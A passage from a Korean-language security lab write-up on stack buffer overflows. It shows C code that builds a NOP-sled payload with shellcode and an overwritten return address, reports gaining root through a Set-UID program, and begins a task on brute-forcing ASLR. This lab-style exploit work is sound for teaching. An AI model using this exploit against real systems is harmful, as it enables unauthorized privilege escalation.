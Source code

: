     	// Initialize buffer with 0x90 (NOP instruction)
    	memset(&buffer, 0x90, 517);
    
    	// fill this section
    	//	shell code inserted
    	shelllen = strlen(shellcode);
    	memcpy(buffer+517-shelllen, shellcode, shelllen);
    
    	buff = 0xbfffe993;
    	ebp = 0xbfffe9e8;
    	off = ebp - buff + 4;
    	ret = buff + 517 - shelllen;
    
    	// somewhere between return address space and shellcode filled with 0x90
    	memcpy(buffer+off, &ret, 4);
    
    	badfile = fopen("./badfile", "w");
    	fwrite(buffer, 517, 1, badfile);
    	fclose(badfile);
    }
    ```
    

### Result

- Step 4에 대한 결과
    
    ![▲ 실행화면](/images/Stack%20Buff%208fe39/Untitled%2013.png)
    
    → 다음과 같이 dash shell에서도 정상적으로 작동함을 볼 수 있다.
    

### Consideration

- victim process의 real user id를 0으로 바꾸는 코드를 추가함으로써, dash shell에서도 Set-UID 프로그램을 통한 root 권한 탈취가 가능해짐을 알 수 있었다.

## Task 4: Defeating Address Randomization

---

### Task purpose

- 32bit 체제의Linux system에서는 stack은 단지 19bits의 entropy를 가진다. 이는 $2^{19}$ = 524,288로 충분히 brute-force로 계산 가능한 범위이다. 그러므로 ASLR 대응책도 한 번 뚫어보자.

### Progress

- Step 1: 우선 원래대로의 ASLR을 적용한다.
    
    ![▲ 실행화면](/images/Stack%20Buff%208fe39/Untitled%2014.png)
    